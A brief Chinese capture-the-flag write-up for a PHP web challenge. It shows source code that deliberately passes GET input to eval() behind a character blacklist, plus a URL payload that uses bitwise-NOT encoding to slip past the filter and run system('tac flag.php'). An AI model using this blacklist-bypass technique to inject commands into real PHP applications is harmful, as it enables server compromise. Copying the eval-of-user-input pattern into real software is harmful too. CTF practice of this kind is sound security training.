

# 知识点
与web145相似
# 思路
```python
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
```python
?v1=0&v2=0&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|
```

